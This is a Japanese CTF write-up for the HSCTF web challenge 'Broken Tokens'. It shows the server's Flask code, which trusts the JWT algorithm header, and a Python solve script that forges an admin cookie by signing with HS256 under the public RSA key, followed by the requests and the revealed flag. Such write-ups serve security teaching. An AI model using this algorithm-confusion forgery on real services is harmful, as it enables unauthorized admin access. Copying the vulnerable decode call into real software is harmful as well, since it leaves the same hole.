 # Broken Tokens

```
web

I made a login page, is it really secure?
https://broken-tokens.web.hsctf.com/
Note: If you receive an "Internal Server Error" (HTTP Status Code 500),
that means that your cookie is incorrect.
Author: hmmm
```

## Solution

![1](https://user-images.githubusercontent.com/47602064/83934499-885ae480-a7ec-11ea-8b88-9866f82e21a3.png)

問題のページに移動するとloginページが表示されました。

そこにはリンクで`publickey.pem`もありました。

```pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtnREuAwK7M/jWZdSVNfN
4m+kX0rqakI6KIR/qzT/Fv7hfC5vg9UJgEaAGOfexmoDMBYTLRSHnQ9EYjF6bkCh
w+NVQCqsvy9psZVnjUHQ6QfVUdyrUcsOuRoMMaEBYp+qCegDY5Vp65Wzk05qXfvK
LJK9apOo0pPgD7fdOhpqwzejxgWxUgYvMqkGQS2aCC51ePvC6edkStNxovoDFvXk
uG69/7jEqs2k2pk5mI66MR+2U46ub8hPUk7WA6zTGHhIMuxny+7ivxYIXCqEbZGV
YhOuubXfAPrVN2UpL4YBvtfmHZMmjp2j39PEqxXU70kTk96xq3WhnYm46HhciyIz
zQIDAQAB
-----END PUBLIC KEY-----
```

試しにそのままloginしてみると`guest`でloginが出来たそうです。

![2](https://user-images.githubusercontent.com/47602064/83934571-16cf6600-a7ed-11ea-9533-00f20e687552.png)

おそらく`admin`でloginをしなければいけなそうと考えられます。

<br>

`login`した時の通信を見てみます。

```http
GET / HTTP/1.1
Host: broken-tokens.web.hsctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://broken-tokens.web.hsctf.com/
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
Upgrade-Insecure-Requests: 1
```

すると`Cookie`に`auth`が入っています。

これをデコードして中身を見てみます。

```
$ echo eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9 | base64 -d
{"typ":"JWT","alg":"RS256"}
$ echo eyJhdXRoIjoiZ3Vlc3QifQ | base64 -d
{"auth":"guest"}
```

これで`auth`に`guest`が入っていたことがわかります。

<br>

次に`main.py`というソースコードを見てみます。

```python
import jwt
import base64
import os
import hashlib
from flask import Flask, render_template, make_response, request, redirect
app = Flask(__name__)
FLAG = os.getenv("FLAG")
PASSWORD = os.getenv("PASSWORD")
with open("privatekey.pem", "r") as f:
	PRIVATE_KEY = f.read()
with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()

@app.route('/', methods=['GET', 'POST'])
def index():
	if request.method == "POST":
		resp = make_response(redirect("/"))
		if request.form["action"] == "Login":
			if request.form["username"] == "admin" and request.form["password"] == PASSWORD:
				auth = jwt.encode({"auth": "admin"}, PRIVATE_KEY, algorithm="RS256")
			else:
				auth = jwt.encode({"auth": "guest"}, PRIVATE_KEY, algorithm="RS256")
			resp.set_cookie("auth", auth)
		else:
			resp.delete_cookie("auth")
		
		return resp
	else:
		auth = request.cookies.get("auth")
		if auth is None:
			logged_in = False
			admin = False
		else:
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp

@app.route("/publickey.pem")
def public_key():
	with open("./publickey.pem", "r") as f:
		resp = make_response(f.read())
		resp.mimetype = 'text/plain'
		return resp

if __name__ == "__main__":
	app.run()
```

今回注目するのは以下の部分と思われます。

```python
admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
```

flagを得るには`/`に`GET`でアクセスして`auth`に`admin`がセットされていれば、`FLAG`が表示されそうです。

<br>

今回は公開鍵が既にわかっているのでこれを使います。

そして`jwt`は古い`pyjwt==0.4.3`を使用します。


```python
#!/usr/bin/python3

import jwt

#pyjwt==0.4.3

pubkey = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtnREuAwK7M/jWZdSVNfN
4m+kX0rqakI6KIR/qzT/Fv7hfC5vg9UJgEaAGOfexmoDMBYTLRSHnQ9EYjF6bkCh
w+NVQCqsvy9psZVnjUHQ6QfVUdyrUcsOuRoMMaEBYp+qCegDY5Vp65Wzk05qXfvK
LJK9apOo0pPgD7fdOhpqwzejxgWxUgYvMqkGQS2aCC51ePvC6edkStNxovoDFvXk
uG69/7jEqs2k2pk5mI66MR+2U46ub8hPUk7WA6zTGHhIMuxny+7ivxYIXCqEbZGV
YhOuubXfAPrVN2UpL4YBvtfmHZMmjp2j39PEqxXU70kTk96xq3WhnYm46HhciyIz
zQIDAQAB
-----END PUBLIC KEY-----
"""

cookie = jwt.encode({"auth": "admin"}, pubkey, algorithm="HS256")

print(cookie.decode())
```

```
$ python3 solve.py 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
```

これで生成されました。

上手く生成できているか試しにデコードしてみます。

```
$ echo eyJhdXRoIjoiYWRtaW4ifQ | base64 -d
{"auth":"admin"}
```

これで`admin`が埋め込められていることが確認できます。

<br>

後は`admin`を埋め込んだ`cookie`をセットして送信させます。

```http
GET / HTTP/1.1
Host: broken-tokens.web.hsctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://broken-tokens.web.hsctf.com/
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
			
<!DOCTYPE html>
<html>
	<head>
  
  main id="content">
			<div>Logged in as admin</div>
			<div id="flag">The flag is flag{1n53cur3_tok3n5_5474212}</div>
		</main>
	</body>
</html>
```

![3](https://user-images.githubusercontent.com/47602064/83937052-53f32280-a804-11ea-9e9c-e38760b66e25.png)

するとflagが表示されました。

<br><br>

## FLAG: flag{1n53cur3_tok3n5_5474212}
